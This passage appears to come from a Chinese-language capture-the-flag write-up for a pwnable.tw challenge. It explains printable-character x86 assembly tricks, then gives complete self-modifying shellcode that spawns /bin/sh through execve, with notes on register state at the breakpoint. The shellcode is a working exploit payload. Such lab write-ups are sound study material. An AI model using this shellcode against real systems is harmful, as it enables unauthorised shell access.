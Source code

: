 ```asm
6.交换al, ah
push eax
xor ah, byte ptr [esp] // ah ^= al
xor byte ptr [esp], ah // al ^= ah
xor ah, byte ptr [esp] // ah ^= al
pop eax

7.清零:
push 44h
pop eax
sub al, 44h ; eax = 0

push esi
push esp
pop eax
xor [eax], esi ; esi = 0
```

我们可以先看看执行shellcode时的寄存器状况（断在了地址0x080487ef，即 call puts

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-deathnote-1.png)

可以发现，edx寄存器地址是shellcode的起始地址，而ebx、ecx的值是0，可以用来置0

我们可以修改shellcode如下

```asm
/* execve(path='/bin///sh', argv=0, envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx
   /*rewrite shellcode to get 'int 80'*/
   /* int 80 = \xcd\x80 */
    push edx
    pop eax
    push 0x60606060
    pop edx
    sub byte ptr[eax + 0x35] , dl
    sub byte ptr[eax + 0x35] , dl
    sub byte ptr[eax + 0x34] , dl
    push 0x3e3e3e3e
    pop edx
    sub byte ptr[eax + 0x34] , dl
    /*set zero to edx*/
    push ecx
    pop edx
   /*set 0x0b to eax*/
    push edx
    pop eax
    xor al, 0x40
    xor al, 0x4b    
  /*foo order,for holding the  place*/
    push edx
    pop edx
    push edx
    pop edx
```
